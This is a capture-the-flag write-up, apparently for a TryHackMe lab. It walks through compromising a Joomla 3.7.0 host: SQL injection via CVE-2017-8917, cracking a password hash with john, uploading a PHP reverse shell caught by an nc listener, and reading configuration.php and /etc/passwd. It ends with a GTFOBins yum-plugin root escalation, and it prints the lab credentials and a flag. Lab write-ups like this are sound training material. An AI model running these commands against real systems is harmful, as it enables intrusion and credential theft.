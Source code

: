## IP Address: 10.10.188.80

[[CTF Notes]]
---

### 🧪 Port Scanning (Nmap)
- **22/tcp** – SSH  
- **80/tcp** – HTTP (Joomla)  
- **3306/tcp** – MySQL  

---

### 🔍 Recon

- The site is running **Joomla 3.7.0**
- Vulnerable to **SQL Injection (CVE-2017-8917)** on the login form:
  - Exploited via GET param: `list[fullordering]`

---

### 🐍 SQLi Exploit (Python)

- Found and used **joomblah.py** from GitHub:

```bash
python3 joomblah.py http://<ip>
```
##### Output:
```
 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$...', '', '']
  -  Extracting sessions from fb9j5_session
```

---

### Cracking the Hash

- Save the hash to `hash.txt`, then run:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

- **Username:** `jonah`
- **Password:** `spiderman123`

---
### 🔐 Joomla Admin Access

- Log in at: `http://10.10.188.80/administrator`

- Upload a **PHP reverse shell** via the media manager or template editor

- Make sure to update php reverse shell to you ip address
---

### 🐚 Shell Access

- Setup `nc` listener to catch the reverse php shell

```
nc -nlvp 1234
```

- After shell access, read the Joomla config:

```bash
cat /var/www/html/configuration.php
```

- DB password: `nv5uz9r3ZEDzVjNu`

- Check users:

```bash
cat /etc/passwd
# Found local user: jjameson
```

---

### SSH as jjameson

- Use the DB creds to pivot or directly SSH if password reuse

- Once in:

```bash
cat user.txt
# 27a260fe3cba712cfdedb1c86d80442e
```

### 🔼 Privilege Escalation

- Check sudo permissions:

```bash
sudo -l
```

- `yum` is available via sudo → use GTFOBins technique:

```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

- Catch reverse shell and access **root**!
---

### Root Flag

```bash
cd /root
cat root.txt
```



